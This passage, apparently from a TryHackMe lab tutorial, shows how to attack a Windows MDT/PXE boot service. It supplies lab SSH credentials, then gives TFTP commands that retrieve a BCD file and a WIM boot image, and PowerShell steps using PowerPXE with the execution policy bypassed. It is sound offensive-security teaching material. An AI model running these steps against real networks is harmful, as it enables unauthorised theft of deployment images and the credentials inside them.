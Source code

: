 Usually, you would use TFTP to request each of these BCD files and enumerate the configuration for all of them. However, in the interest of time, we will focus on the BCD file of the x64 architecture. Copy and store the full name of this file. For the rest of this exercise, we will be using this name placeholder `x64{7B...B3}.bcd` since the files and their names are regenerated by MDT every day. Each time you see this placeholder, remember to replace it with your specific BCD filename. Note as well that if the network has just started, these file names will only update after 10 mintes of the network being active.  
With this initial information now recovered from DHCP (wink wink), we can enumerate and retrieve the PXE Boot image. We will be using our SSH connection on THMJMP1 for the next couple of steps, so please authenticate to this SSH session using the following:  
`ssh thm@THMJMP1.za.tryhackme.com`  
and the password of `Password1@`.  
To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:
```
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```
The first step we need to perform is using TFTP and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server. We can initiate the TFTP transfer using the following command in our SSH session:
```
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```
You will have to lookup THMMDT IP with nslookup thmmdt.za.tryhackme.com. With the BCD file now recovered, we will be using [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read its contents. Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:
```
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```
WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
```
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```
This download will take a while since you are downloading a fully bootable and configured Windows image. Maybe stretch your legs and grab a glass of water while you wait.
